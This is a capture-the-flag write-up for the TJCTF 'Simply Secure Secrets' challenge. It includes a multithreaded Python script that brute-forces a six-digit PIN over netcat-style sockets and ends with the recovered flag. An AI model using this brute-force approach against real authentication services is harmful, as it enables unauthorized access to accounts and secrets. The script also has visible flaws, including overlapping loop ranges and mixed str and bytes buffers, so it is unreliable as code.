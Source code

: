# Simply Secure Secrets (50 points, misc)

## Problem
`nc p1.tjctf.org 8000`

## Solution
Running the command mentioned above, we are taken to a service:
```
Welcome to the Simply Secure Service! (TRIAL)
The product: an impregnable bunker for your most vulnerable secrets.
---------------------------------------------
Commands:
    l - List all secret names
    s - Store a secret
    r - Reveal a secret
    u - Upgrade to PRO
    h - Display this help menu
    x - Exit service
> 
```
Let's poke around a little bit.
```
> l
List of stored secret names:
  - tjctf
  - evan
  - omkar
> 
```

Interesting. The secret is probably inside of `tjctf`. Let's retrieve it with the previously-mentioned `r` command.
```
> r
Secret name: tjctf
Secret pin:
```
It's now asking for a pin number. Let's enter something random and see what happens.
```
Secret pin: 1
Secret pin must be in ###### format.
```
Let's see if we get anything back if we enter a pin number in the format the program wants.
```
Secret pin: 000001
Invalid pin. The appropriate authorities have been notified.
> 
```

Not the police.

Well, my first thought would be to bruteforce this problem, and it seems I was right.

### The Script

``` Python
import socket
import threading
import time

# https://gist.github.com/leonjza/f35a7252babdf77c8421 
class Netcat:

    """ Python 'netcat like' module """

    def __init__(self, ip, port):

        self.buff = ""
        self.socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.socket.connect((ip, port))

    def read(self, length = 1024):

        """ Read 1024 bytes off the socket """

        return self.socket.recv(length)
 
    def read_until(self, data):

        """ Read data into the buffer until we have data """

        while not data in self.buff:
            self.buff += self.socket.recv(1024)
 
        pos = self.buff.find(data)
        rval = self.buff[:pos + len(data)]
        self.buff = self.buff[pos + len(data):]
 
        return rval
 
    def write(self, data):

        self.socket.send(data)

    def writeln(self, data):

        data += b"\n"
        self.socket.send(data)

    def close(self):

        self.socket.close()

class SolverThread(threading.Thread):
    def run(self):
        thread_number = int(threading.currentThread().getName())
        self.do_the_stuff(10000, thread_number)

    def do_the_stuff(self, cracking_range, thread_number):
        nc = Netcat('p1.tjctf.org', 8000)
        for x in range(cracking_range * thread_number, cracking_range *
                (thread_number + 10000)):
            nc.buff = b''
            print(nc.read_until(b">"))
            nc.writeln(str.encode("r"))
            nc.read_until(b"Secret")
            nc.writeln(str.encode("tjctf"))
            nc.read_until(b"Secret")
            print(str(x).zfill(6))
            nc.writeln(str.encode(str(x).zfill(6)))

def main():
    for x in range(100):
        thread = SolverThread(name = "{}".format(x + 1))
        thread.daemon = True # allow us to Ctrl+C to kill all threads
        thread.start()
    while True:
        time.sleep(1)

if __name__ == '__main__':
    main()
```

Yeah. It's kind of a mess. It works by creating 100 threads, each tasked with:.
1. Creating a netcat connection to `pi.tjctf.org 8000`
2. Then, in a loop:
	1. Sending a bunch of commands to reach the pin entry prompt (as demonstrated above)
	2. Checking one of the pin numbers it's assigned (via its thread number)
	3. Printing what it returns (for use by `tee -a` and `grep`.

Run the script with `python3 sss.py | tee -a flag` and to use it, in another window, occaisonaly grep the file for `tjctf`, it shows up eventually.

```
$ python3 sss.py | tee -a flag.txt
$ grep tjctf flag.txt
b'Secret content: tjctf{1_533_y0u_f0rc3d_y0ur_w4y_1n}\n>'
```


